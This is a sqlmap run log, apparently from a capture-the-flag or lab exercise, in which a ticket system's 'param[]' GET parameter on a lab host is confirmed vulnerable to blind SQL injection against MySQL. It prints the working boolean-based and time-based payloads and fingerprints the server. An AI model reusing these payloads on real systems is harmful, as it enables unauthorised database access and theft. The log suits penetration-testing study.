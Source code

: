     [17:33:15] [INFO] parsing HTTP request from 'ticket_attachment.request'
    [17:33:15] [INFO] testing connection to the target URL
    [17:33:15] [INFO] testing if the target URL content is stable
    [17:33:16] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
    [17:33:16] [WARNING] heuristic (basic) test shows that GET parameter 'param[]' might not be injectable
    [17:33:16] [INFO] testing for SQL injection on GET parameter 'param[]'
    [17:33:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [17:33:17] [INFO] GET parameter 'param[]' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --not-string="go")
    [17:33:19] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
    ...[snip]...
    [17:33:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
    [17:33:38] [INFO] GET parameter 'param[]' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
    [17:33:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [17:33:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [17:33:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [17:33:39] [INFO] target URL appears to have 9 columns in query
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
    [17:33:51] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
    [17:33:53] [INFO] target URL appears to be UNION injectable with 9 columns
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
    ...[snip]...
    [17:34:23] [INFO] checking if the injection point on GET parameter 'param[]' is a false positive
    GET parameter 'param[]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
    ---
    Parameter: param[] (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 AND 6277=6277

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 AND SLEEP(5)
    ---
    [17:34:29] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL >= 5.0.12
    [17:34:29] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.121'
